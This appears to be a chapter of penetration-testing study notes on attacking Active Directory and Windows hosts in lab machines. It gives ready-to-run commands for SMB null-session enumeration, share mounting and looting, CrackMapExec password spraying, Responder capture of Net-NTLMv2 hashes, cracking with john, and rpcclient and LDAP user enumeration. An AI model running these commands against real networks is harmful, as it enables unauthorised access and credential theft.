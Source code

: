 # Active Directory & Windows Machines {-}

## Interesting Windows ports {-}

- 88 Kerberos
- 139 NetBIOS session service
- 445 Server Message Block **SMB**
- 389 LDAP
- 1433 ms-sql
- 5985-5986 WinRM

> [!] NOTE: NetBIOS session service facilitates authentication aross a windows workgroup or domain and provides access to resources (such as files and printers)


## SMB connection with smbclient and smbmap {-}

**smbclient** is a tool that allows attacker to enumerate and list the shared resources of a machine that have the smb service on. 
You can start by using smbclient with a Null session by using the `-N` argument

```bash
smbclient -L 10.10.10.10 -N
```

As soon as you have listed those resources you can use **smbmap** to check the access, read or write rights that you have. You can also
specify the Null session by using the `-u 'null'` argument

```bash
smbmap -H 10.10.10.10 -u 'null'
smbmap -H 10.10.10.10 -u " " -p " "
```

As soon as you find a resource that you can access, you can use **smbclient** to connect to it. Again you can use the `-N` argument to tell
smbclient that you want to connect without asking for credentials.

```bash
smbclient //10.10.10.10/<Accessible resource>
```

> [!] NOTE: smbclient don't provide you a shell but a tool. **get filename.txt** allows you to download a resource if you are connected

If you see that you have access to the desired resource, you can mount the shared directory to your attacker machine.

```bash
mkdir /mnt/smbvictim
mount -t cifs "//10.10.10.10/<Accessible resource>" /mnt/smbvictim
```

You can also mount a directory with user credentials in order to get more information

```bash
mount -o user=<username> -t cifs //10.10.10.10/<folder> /mnt/smbvictim/
```

> [!] NOTE: A mounted partition is not a download of victim folders and file. That's only an access pass. Type `unmount /mnt/smbmounted` to close the
> mounted share.

One interesting point with smb is that there is some specified rights at the smb level that can varied. That means that it's not because the
shared resource is on READ ONLY mode that all the folders that this resource contains can not have a write right. You can check if some repository of 
this resource are writable with the **smbcacls** tool. The interesting right that we want to check is the Everyone.

```bash
smbcacls "10.10.10.10/<Accessible resource>" Users/amanda -N
```

The output will look as following:

```r
knitr::include_graphics("images/cacls-read.png")
```

It's interesting to mount the resource in the attacker machine because can do a one liner loop to check multiple folders rights filtering the information
by the Everyone key word.

```bash
cd /mnt/smbvictim/Users
ls -l | awk 'NF{print $NF}' | while read directory; do echo -e "\n[+] Directory $directory; smbcacls "10.10.10.10/<Accessible resource>" Users/$directory -N | grep -i everyone ; done
```

If you find a directory that have writable rights, something that can be intersting to check is that if you create a file in it, is somebody
manipulating it (remove it, writing on it, removing his content etc.). If it's the case, attacker have a way of stolling the hash NTLMv2 with
malicious **scf** file

## Get all files in a smb directory with smbget {-}

Using the mounted option is interessting, but sometimes attacker will find more convenient to download all the shared files in the attacker machine.
For this purpose, you can use the **smbget** utility.

```bash
smbget -R smb://10.10.10.10/<Accessible resource> -U username
```

Also possible for a specific folder inside the resource

```bash
smbget -rR smb://10.10.10.10/<Accessible resource>/directoryA/directoryB -U username
```

## Search for specific file with smbmap {-}

```bash
smbmap -R <Accessible resource> -H 10.10.10.10 -A Groups.xml -q 
```

## Enumerate machines and check user validity by SAMBA with CME {-}

**CrackMapExec** (a.k.a **CME**) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.

```bash
cme smb 192.168.0.0/24
```

**CME** can also enumerate a single machine,

```bash
cme smb 10.10.10.10
```

If we have credentials of a user, you can use **CME** to check the validity of a user. If the user with the password exists, the tool will
write a red plus sign, if not, a minus sign. And if the user exists and this one have admin priviledges on machines, **CrackMapExec** will
return a red plus sign and you will see a (Pwn3d!) in the result.

```bash
cme smb 10.10.10.10 -u 'user' -p 'password1'
```

You can also check the validity of multiple users with some discovered passwords

```bash
cme smb 10.10.10.10 -u users.txt -p passwords.txt
```

Here, something that can be interesting is to list the shared recourses for this user

```bash
cme smb 10.10.10.10 -u 'user' -p 'password1' --shares
```

## Sniffing traffic for SAMBA Relay with responder {-}

When SAMBA is created, by default SAMBA cert is not signed. That means that by default it's not possible to validate the origin legitimity. 
In this case Attacker can use tools like responder in order to sniff SAMBA communication traffic.

```bash
cd /usr/share/responder
# config file is in Responder.conf
python3 Responder.py -I eth0 -rdw
```

As soon as a connection is launched, you can see the communication. And because the SAMBA is not signed you can then get the **Hash Net-NTLMv2** of users.

```r
knitr::include_graphics("images/ad-hashnetntlmv2.png")
```

What attacker can do with this hash?

1. copy hashes in a file (*hashes*)
1. bruteforce hashes file with john

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes
    ```

## RPC connection with rpcclient {-}

**Remote Procedure Call** aka **RPC** is a network protocol that allows to make calls of precedures on an external computer with an 
application server. This protocol is used in a client-server model in order to ensure the communication between the client, the server and
between possible intermediaries.

In the enumeration phase, attacker can check if it's possible to connect with a null session using the **rpcclient** with the `-U ""` arguments

```bash
rpcclient -U "" 10.10.10.10 -N
```

The connection with a valid user will be done as following

```bash
rpcclient -U "user%password" 10.10.10.10 -c <command>
```

Interesting command to execute with rpcclient are:

```bash
rpcclient -U "user%password" 10.10.10.10 -c 'enumdomusers'
rpcclient -U "user%password" 10.10.10.10 -c 'enumdomgroups'
# get the rid of domain admins -> 0x200 in this example
rpcclient -U "user%password" 10.10.10.10 -c 'querygroupmem 0x200'
# get the rid of the users -> 0x1f4 for example
rpcclient -U "user%password" 10.10.10.10 -c 'queryuser 0x1f4'
```

We can also prepare a list of users for a possible Asproasting Attack.

```bash
cd content
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]'
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > users.txt
```

## Enumerate ldap service with nmap {-}

```bash
locate .nse | grep "ldap"
```

```bash
nmap --script ldap\* 10.10.10.10 -oN ldapScan
```

## LDAP Port Get Domain objects with windapsearch {-}

```bash
git clone https://github.com/ropnop/windapsearch.git
pip install python-ldap #or apt-get install python-ldap
./windapsearch.py -d DOMAIN --dc-ip 10.10.10.10 -U
```

## LDAP enum with GetADUsers.py {-}

```bash
impacket-GetADUsers DOMAIN/ -dc-ip 10.10.10.10 -debug
```





